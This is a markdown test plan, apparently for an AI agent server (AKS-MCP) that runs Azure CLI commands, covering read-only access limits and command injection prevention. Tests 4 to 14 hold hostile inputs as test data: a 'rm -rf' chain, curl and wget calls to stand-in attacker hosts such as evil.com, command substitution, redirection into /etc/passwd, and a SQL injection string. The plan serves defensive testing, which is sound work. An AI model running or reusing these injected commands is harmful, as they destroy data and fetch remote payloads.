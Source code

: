 # Security Validation Tests

## Test Objective
Validate security controls, access level restrictions, and command injection prevention in the AKS-MCP server.

## Prerequisites
- AKS-MCP server configured with different access levels
- Test clusters available for operations
- Understanding of expected security behaviors

## Test Prompts

### Access Level Tests

#### Test 1: Readonly Access - Read Operations
**Access Level:** `readonly`
**Prompt:**
```
Show me the details of the AKS cluster "test-cluster" in resource group "test-rg".
```

**Expected Outcome:**
- Should succeed and return cluster information
- No modifications should be possible

#### Test 2: Readonly Access - Write Operations Blocked
**Access Level:** `readonly`
**Prompt:**
```
Scale the AKS cluster "test-cluster" in resource group "test-rg" to 5 nodes.
```

**Expected Outcome:**
- Should be blocked with appropriate error message
- Error should indicate insufficient permissions
- No scaling operation should occur

#### Test 3: Help Commands Always Allowed
**Access Level:** `readonly`
**Prompt:**
```
Show me help for creating an AKS cluster.
```

**Expected Outcome:**
- Should succeed even in readonly mode
- Should return help information for az aks create command

### Command Injection Prevention Tests

#### Test 4: Basic Command Injection - Semicolon
**Prompt:**
```
Show cluster information for "test-cluster"; rm -rf /tmp/*
```

**Expected Outcome:**
- Should be blocked as dangerous command injection
- Clear security error message
- No command execution should occur

#### Test 5: Pipe Command Injection
**Prompt:**
```
List AKS clusters | curl http://malicious-site.com
```

**Expected Outcome:**
- Should be blocked as command injection attempt
- Security validation should prevent execution

#### Test 6: Command Substitution
**Prompt:**
```
Show cluster details for $(whoami) cluster.
```

**Expected Outcome:**
- Should be blocked as command substitution attempt
- Security error returned

#### Test 7: Background Process Injection
**Prompt:**
```
List clusters & wget http://evil.com/script.sh
```

**Expected Outcome:**
- Should be blocked as background execution attempt
- Proper security error message

### Input Validation Tests

#### Test 8: Here Document Injection
**Prompt:**
```
Create a cluster << EOF
malicious content
EOF
```

**Expected Outcome:**
- Should be blocked or properly validated
- No arbitrary input execution

#### Test 9: Legitimate Here Document
**Prompt:**
```
Create AKS cluster with parameters << EOF
{
  "name": "test-cluster",
  "location": "eastus",
  "nodeCount": 3
}
EOF
```

**Expected Outcome:**
- Should be allowed if properly formatted
- Content should be validated

#### Test 10: Variable Substitution
**Prompt:**
```
Show cluster ${MALICIOUS_VAR} information.
```

**Expected Outcome:**
- Should be blocked as variable substitution attempt
- Security validation should prevent execution

### Output Redirection Tests

#### Test 11: Output Redirection
**Prompt:**
```
List AKS clusters > /etc/passwd
```

**Expected Outcome:**
- Should be blocked as output redirection attempt
- Security error message

#### Test 12: Append Redirection
**Prompt:**
```
Show cluster info >> /tmp/sensitive-file.txt
```

**Expected Outcome:**
- Should be blocked as dangerous redirection
- Proper security validation

### Edge Cases

#### Test 13: Mixed Valid and Invalid Commands
**Prompt:**
```
Show cluster "test-cluster" && echo "additional command"
```

**Expected Outcome:**
- Should be blocked due to command chaining
- Security validation should catch the AND operator

#### Test 14: Quoted Injection Attempts
**Prompt:**
```
Show cluster "test'; DROP TABLE clusters; --"
```

**Expected Outcome:**
- Should be handled safely
- No SQL injection or similar attacks possible

## Validation Checklist
- [ ] Readonly mode blocks write operations
- [ ] Help commands work in all access levels
- [ ] Command injection attempts are blocked
- [ ] Security error messages are appropriate
- [ ] No sensitive information in error messages
- [ ] All dangerous patterns are caught
- [ ] Legitimate commands still work
- [ ] Here documents are properly validated
- [ ] Access level restrictions work correctly
- [ ] Error handling is consistent
